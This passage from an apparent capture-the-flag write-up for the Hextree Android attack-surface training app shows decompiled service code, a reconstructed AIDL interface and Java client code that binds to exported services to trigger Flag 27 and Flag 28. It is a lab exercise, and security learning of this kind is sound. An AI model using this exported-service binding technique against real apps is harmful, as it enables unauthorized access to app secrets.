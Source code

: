```java
Intent send = new Intent();  
send.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag27Service");  
bindService(send,serviceConnection2, Context.BIND_AUTO_CREATE);
```

### Flag 28
#### Code analysis
```java
package io.hextree.attacksurface.services;
private final IFlag28Interface.Stub binder = new IFlag28Interface.Stub() {
        @Override // io.hextree.attacksurface.services.IFlag28Interface
        public boolean openFlag() throws RemoteException {
            return success();
        }

        public boolean success() {
            Intent intent = new Intent();
            intent.setClass(Flag28Service.this, Flag28Activity.class);
            intent.putExtra("secret", Flag28Service.secret);
            intent.addFlags(268468224);
            intent.putExtra("hideIntent", true);
            Flag28Service.this.startActivity(intent);
            return true;
        }
    };
```

by looking at the `onBind()` method that returns some kind of `.Stub` binder Which means we are dealing with AIDL file, Looking more we can see that it only implements  a single method of type Boolean  that just by calling The method we get `success` called 

#### Solution

In order for our app to call this method it needs to know it in the first place right? so reversing the aidl we get

##### Defining the file

```java
// IFlag28Interface.aidl  
package io.hextree.attacksurface.services;  
  
interface IFlag28Interface {     
	boolean openFlag();  
}
```

now creating  a connection to service and using `IFlag28Interface` to get access to methods in it we call `openFlag`
```java
Intent send = new Intent();  
send.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag28Service");  
ServiceConnection serviceConnection3 = new ServiceConnection() {  
    @Override  
    public void onServiceConnected(ComponentName name, IBinder service) {  
        IFlag28Interface remoteService = IFlag28Interface.Stub.asInterface(service);  
        try {  
            remoteService.openFlag();  
        } catch (RemoteException e) {  
            throw new RuntimeException(e);  
        }  
    }  
    @Override  
    public void onServiceDisconnected(ComponentName name) {  
    }  
```